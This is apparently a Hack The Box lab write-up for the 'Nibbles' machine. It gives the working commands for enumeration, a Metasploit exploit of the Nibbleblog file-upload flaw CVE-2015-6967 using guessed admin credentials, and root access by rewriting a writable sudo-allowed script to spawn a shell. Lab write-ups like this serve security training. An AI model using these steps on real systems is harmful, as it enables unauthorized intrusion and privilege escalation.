










<div align="left">


</div>

## Nibbles — Hack The Box Write-Up

<div align="left">

<br>
<br>


</div>

This machine focuses on **classic CMS exploitation and privilege escalation**, highlighting how weak credentials and unsafe sudo configurations can lead to full system compromise.

- CMS enumeration & version disclosure
- Arbitrary file upload exploitation (CVE-2015-6967)
- Reverse shell & post-exploitation
- Abusing writable sudo-allowed scripts

---

## 🛠 Tools

```
nmap              → discovering open ports & services
feroxbuster       → directory & file enumeration
searchsploit      → public exploit discovery
metasploit        → CMS exploitation
sudo              → privilege escalation enumeration
```

---

## 🔍 Reconnaissance & Enumeration

As with any penetration test, we begin with **Reconnaissance and Enumeration**.

### Full Port Scan

````bash
sudo nmap  10.10.10.75 -sV -Pn


**Results:**

```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
````



---

### Service Enumeration

```bash
sudo nmap -p 22,80 -sC -sV 10.10.10.75 -vv -T4
```

- **SSH:** OpenSSH 7.2p2 (Ubuntu)
- **HTTP:** Apache 2.4.18 (Ubuntu)

---

## 🌐 Web Enumeration

Browsing port **80** displays a minimal page:

```text
Hello world!
```



Viewing the page source reveals a directory reference:

```text
/nibbleblog/
```



---

## 🎯 Nibbleblog Discovery

Visiting `/nibbleblog/` reveals a blog installation powered by **Nibbleblog**:



---

## 🔎 Vulnerability Research

```bash
searchsploit Nibbleblog
```



Relevant finding:

```text
Nibbleblog 4.0.3 - Arbitrary File Upload
```

---

## 📂 Directory Enumeration

```bash
feroxbuster \
  --url http://10.10.10.75/nibbleblog/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -C 404
```

**Interesting paths:**

- `/admin`
- `/content`
- `/plugins`
- `/themes`
- `/languages`
- `/README`



---

## 📄 Version Disclosure

The `README` file confirms:

```text
Nibbleblog version: 4.0.3
```

Vulnerable to **CVE-2015-6967**.

---

## 🔐 Authentication Enumeration

Inspecting exposed configuration files reveals a username:

```text
admin
```



Manual password testing succeeds:

```text
admin : nibbles
```

---

## 💥 Exploitation — Arbitrary File Upload

Using Metasploit:

```bash
use exploit/multi/http/nibbleblog_file_upload
set USERNAME admin
set PASSWORD nibbles
set TARGETURI /nibbleblog/
set RHOSTS 10.10.10.75
set LHOST tun0
run
```

A Meterpreter session is obtained.

---

## 🐚 Shell Upgrade

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

User context:

```text
nibbler@Nibbles
```


---

## 🧑 User Flag

```bash
cat /home/nibbler/user.txt
```

---

## 👑 Privilege Escalation

```bash
sudo -l
```



Allowed command:

```text
/home/nibbler/personal/stuff/monitor.sh
```

The path is writable.

### Exploit Creation

```bash
mkdir -p ~/personal/stuff
nano ~/personal/stuff/monitor.sh
```

```bash
#!/bin/bash
bash -i
```

```bash
chmod +x monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```



---

## 🏁 Root Flag

```bash
cat /root/root.txt
```



---

## 🧠 What This Box Teaches

- CMS documentation and source files often leak attack paths
- Arbitrary file uploads are still highly impactful
- Weak credentials remain a common entry point
- Misconfigured sudo rules can instantly lead to root

---

## 📌 Conclusion

Nibbles is a classic **enumeration-driven machine** that rewards careful inspection over brute force.
Chaining **CVE-2015-6967** with a writable sudo-allowed script results in full system compromise.

> _If a script can be executed as root — assume it can be abused._

This work is part of **FuzzRaiders’ structured hands-on training and research program**, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor, and real-world security execution

Happy hacking 🚀

# Author: Z4B0 [LinkedIn](https://www.linkedin.com/in/mahamud-abdirahman-151493375/)
